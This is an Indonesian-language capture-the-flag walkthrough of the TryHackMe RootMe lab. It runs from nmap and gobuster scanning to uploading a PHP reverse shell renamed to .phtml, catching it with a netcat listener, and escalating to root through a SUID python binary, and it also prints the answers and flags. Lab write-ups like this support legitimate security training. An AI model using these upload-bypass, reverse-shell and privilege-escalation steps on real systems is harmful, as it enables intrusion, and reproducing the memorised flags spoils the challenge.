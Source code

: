 # CTF RootMe
- TryHackMe Challenge: https://tryhackme.com/room/rrootme
- IP Machine: 10.10.213.79

## Task 2 Reconnaissance
- Lakukan scanning menggunakan tool `nmap`
```sh
nmap -sV -sC <IP Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%201.JPG)

- Lakukan pencarian halaman web tersembunyi dengan tool `gobuster`
```sh
gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%202.JPG)

- Buka halaman web `http://<IP_Machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%203.JPG)

- Dari hasil brute force gobuster diatas ditemukan halaman **/panel**. Kita bisa membuka di browser dengan url `http://<IP_Machine>/panel` di browser. Setelah dibuka, halaman tersebut berisi form untuk upload file

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%204.JPG)

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What version of Apache is running?
```sh
2.4.29
```

- **Pertanyaan:** What service is running on port 22?
```sh
ssh
```

- **Pertanyaan:** What is the hidden directory?
```sh
/panel/
```

## Task 3 Getting a shell
- Disini kita memanfaatkan celah keamanan **File Upload Vulnerabilities**. Salah satunya adalah dengan mengunggah file php reverse shell ke halaman upload file. Kita bisa mengunduh file php-reverse-shell di https://pentestmonkey.net/tools/web-shells/php-reverse-shell
- Setelah berhasil diunduh, edit file **php-reverse-shell.php** dengan menggunakan tool nano. Ubah ip dengan IP tun0 di komputer yang anda gunakan dan disini kita memakai port 4444 sebagai listening

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%204.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%205.JPG)

- Unggah file **php-reverse-shell.php** yang sudah diedit ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Setelah di upload ternyata muncul pesan bahwa extensi file tidak di izinkan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%205.JPG)

- Sekarang kita coba ubah ekstensi **.php** menjadi **.phtml**
```sh
mv php-reverse-shell.php php-reverse-shell.phtml
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%206.JPG)

- Unggah file **php-reverse-shell.phtml** ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Hasilnya file berhasil terunggah

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%207.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%208.JPG)

- Buka terminal baru dan buat listener netcat di port 4444 sesuai konfigurasi file **php-reverse-shell.php** diatas
```sh
nc -lnvp 4444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%209.JPG)

- Buka halaman web `http://<IP_Machine>/uploads` di browser. Disini terdapat file **php-reverse-shell.phtml** yang sudah kita unggah sebelumnya. Klik file tersebut untuk menjalankannya

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2010.JPG)

- Setelah payload dijalankan, netcat berhasil terkoneksi dengan shell server

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2011.JPG)

- Disini shell tidak stabil, kita bisa melakukan perintah berikut untuk mendapatkan shell server yang stabil
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2012.JPG)

- File **user.txt** tidak ditemukan di home directory, jadi kita mencari di directory lain dengan perintah dibawah ini. Ternyata file **user.txt** berada di path **/var/www/user.txt**
```sh
find / -type f -name user.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2014.JPG)

- Buka isi file **user.txt**
```sh
cat /var/www/user.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2015.JPG)

- **Pertanyaan:** user.txt
```sh
THM{y0u_g0t_a_sh3ll}
```

## Task 4 Privilege escalation
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2016.JPG)

- Dari perintah diatas ditemukan file **/usr/bin/python** yang bisa digunakan untuk mengeskalasi user root

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2017.JPG)

- Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/python/#suid untuk mendapatkan akses root melalui SUID file python. Kita cukup menjalankan 1 baris perintah dibawah ini untuk mendapatkan akses root
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2018.JPG)

- Buka root flag yang berada di di direktori **/root**
```sh
cat /root/root.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2019.JPG)

- **Pertanyaan:** Search for files with SUID permission, which file is weird?
```sh
/usr/bin/python
```

- **Pertanyaan:** root.txt
```sh
THM{pr1v1l3g3_3sc4l4t10n}
```
